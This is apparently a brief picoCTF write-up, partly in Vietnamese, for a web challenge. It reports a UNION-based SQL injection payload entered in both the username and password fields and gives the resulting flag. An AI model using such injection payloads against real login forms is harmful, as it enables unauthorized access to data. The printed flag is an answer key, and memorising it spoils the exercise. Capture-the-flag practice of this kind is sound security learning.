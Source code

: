 ## Description

Can you find the flag on this website.
Try to find the flag here.

![image](https://github.com/yeuubonn2k4/Pico/assets/161863346/e1410f40-c1f2-483b-9a08-242711644fe6)

## Solution

- Ca user and pass deu la 

![image](https://github.com/yeuubonn2k4/Pico/assets/161863346/aa064306-1fbf-463b-818c-cf4b7ea4dfd9)

![image](https://github.com/yeuubonn2k4/Pico/assets/161863346/1e993c21-5bcf-4923-a91c-7d2471b60599)

- bang ` 123' UNION SELECT flag, null, null from more_table;-- `


![image](https://github.com/yeuubonn2k4/Pico/assets/161863346/2b8fdca0-deb0-49e7-a9d9-85804ec4549b)

- Flag:

`
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}	
`
